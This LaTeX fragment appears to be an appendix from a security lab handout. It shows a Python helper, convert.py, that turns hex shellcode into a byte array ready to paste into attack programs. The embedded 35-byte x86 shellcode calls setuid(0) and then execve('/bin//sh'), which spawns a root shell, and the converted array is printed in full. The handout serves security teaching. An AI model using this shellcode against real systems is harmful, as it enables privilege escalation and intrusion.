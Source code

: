 \section{Submission}




\appendix
\section{Using the shellcode in attacking code}

In actual attacks, we need to include the shellcode
in our attacking code, such as a Python or C program.
We usually store the machine code in an array, but
converting the machine code printed above 
to the array assignment in Python and C programs
is quite tedious if done manually, especially if 
we need to perform this process many times in the lab. 
We wrote the following Python code to
help this process. Just copy whatever you
get from the \texttt{xxd} command (only the shellcode part)
and paste it to the following code, between the lines
marked by \texttt{"""}. The code can be downloaded from the 
lab's website.


\begin{lstlisting}[caption=\texttt{convert.py}] 
#!/usr/bin/env python3

# Run "xxd -p -c 20 mysh.o", and
# copy and paste the machine code part to the following:
ori_sh ="""
31db31c0b0d5cd80
31c050682f2f7368682f62696e89e3505389e131
d231c0b00bcd80
"""

sh = ori_sh.replace("\n", "")

length  = int(len(sh)/2)
print("Length of the shellcode: {}".format(length))
s = 'shellcode= (\n' + '   "'
for i in range(length):
    s += "\\x" + sh[2*i] + sh[2*i+1]
    if i > 0 and i % 16 == 15:
       s += '"\n' + '   "'
s += '"\n' + ").encode('latin-1')"
print(s)
\end{lstlisting}
 
The \texttt{convert.py} program will print out the 
following Python code that you can include 
in your attack code. It stores the shellcode in
a Python array. 
 
\begin{lstlisting}
$ ./convert.py
Length of the shellcode: 35
shellcode= (
   "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68"
   "\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0"
   "\x0b\xcd\x80"
).encode('latin-1')
\end{lstlisting}










